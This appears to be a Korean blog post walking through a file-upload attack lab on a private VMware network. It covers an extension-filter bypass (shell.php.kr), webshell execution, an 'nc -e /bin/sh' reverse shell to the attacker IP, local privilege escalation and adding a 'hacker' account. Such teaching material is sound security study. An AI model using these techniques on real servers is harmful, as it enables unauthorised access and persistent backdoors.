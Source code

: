```yaml
---
title: "파일업로드 공격 실습(File Upload Attack)"
categories:
  - Web
tags:
  - Web hacking
  - File upload
  - netcat
  - webshell
comments: true
---
```


파일 업로드 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 공격대상 서버 가상머신 환경설정
> 2. 파일 업로드 취약점 확인
> 3. Webshell 업로드 및 실행
> 4. nc 를 이용한 reverse connection
> 5. exploit code 재컴파일, 실행을 통한 권한상승


# 1. 공격대상 서버 가상머신 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1


# 2. 파일 업로드 취약점 확인

파일 업로드 공격은 다음의 3가지를 충족해야 한다.
- 공격자가 원하는 파일이 업로드 가능해야 한다.(확장자 우회 등을 통해)
- 업로드된 파일의 경로(서버 내 경로)를 알아야 한다.
- 업로드된 파일의 실행권한

> 2.1. 공격대상 웹 게시판에 sher.jpg 파일 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.png"></p></center>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.2.png"></p></center>

> 2.2. [이미지 우클릭]-[이미지 주소 복사] 를 통해 업로드된 파일의 경로를 파악한다.

파일 업로드 경로 : http://10.10.10.10/wizboard/table/root/board04/updir/sher.jpg

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.2.png"></p></center>


# 3. Webshell 업로드 및 실행

> 3.1. shell.php 업로드를 하면 다음과 같이 블랙리스트 기반 파일 확장자 필터링이 있는 것을 알 수 있다.


<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.1.png"></p></center>


> 3.2. shell.php.kr 로 파일명을 변경한 후 업로드 재시도(파일 필터링 우회기법) : 성공

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.2.png"></p></center>

> 3.3. Webshell 실행

<2.2. 파일 업로드 경로> 에서 알아낸 파일 업로드 경로를 참고하여 다음의 url 을 통해 webshell 을 실행시킨다.

http://10.10.10.10/wizboard/table/root/board04/updir/shell.php.kr

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.3.png"></p></center>

> 3.4. 계정 확인 (명령어 : id)

**nobody 계정은 가장 권한이 낮은 계정 중 하나로, apache web server process를 구동시키기 위한 계정이다.**

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.4.png"></p></center>

> 3.5. test 파일 생성 후 확인(명령어 : touch test, ls -al)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.5.png"></p></center>

> 3.6. test 파일 권한 확인(명령어 : stat test)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.6.png"></p></center>

> 3.7. exploit 코드 업로드 후, 실행을 통한 권한상승 시도

3.7.1. 게시판을 통한 exp1.c 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.1.png"></p></center>

3.7.2. 컴파일 : gcc -o exp exp1.c

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.2.png"></p></center>

3.7.3. 실행 : ./exp

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.3.png"></p></center>

3.7.4. 권한 상승 실패로 여전히 nobody 계정이다.

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.4.png"></p></center>


<div class="notice">
※ Expolit code 를 실행하였음에도, 권한상승에 실패한 이유?<br>
<br>
웹쉘이란?  사실은 쉘이 아니다. 리눅스 쉘에 명령어를 전달하고 출력결과를 전달해주는 것으로 리눅스에서 쉘은 /bin/bash, /bin/sh 등이다. 실제 shell 을 통해 exploit 코드를 실행하여야 한다.
</div>


# 4. nc 를 이용한 reverse connection

> 4.1. 공격 대상 PC 에서 nc 프로그램을 연결대기 상태로 만든다.

cmd 창을 2개 생성 후 다음과 같이 명령어를 입력한다.<br>
- `cmd_1` : nc -l -p 31337<br>
31337 포트를 이용한 프로그램 실행 중 상태 (31337 포트는 임의로 선택한 것이다.)<br>
- `cmd_2` : netstat -an<br>
31337 포트가 리스팅 상태인지(프로그램이 제대로 실행되었는지) 확인

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.1.jpg"></p></center>

> 4.2. 웹쉘을 통해 서버 -> 공격대상 PC 연결시킨다.

-`웹쉘` : nc -e /bin/sh 10.10.10.1 31337<br>
(이때, 10.10.10.1 은 공격자의 IP 주소이다.)<br>
- `cmd_1` : id (연결확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.2.png"></p></center>

# 5. exploit code 재컴파일, 실행을 통한 권한상승

> 5.1. 이전에 컴파일 된, exp 를 삭제하고, nc(/bin/sh) 를 통해 exploit 코드를 재컴파일 후 실행시킨다.

<div class="notice">
※ root 권한의 계정으로 컴파일 된 실행파일을 만들기 위함
</div>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.1.jpg"></p></center>

> 5.2. hacker 계정 추가

useradd hacker<br>
passwd hacker<br>
cat /etc/passwd (hacker 계정 추가 확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.2.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
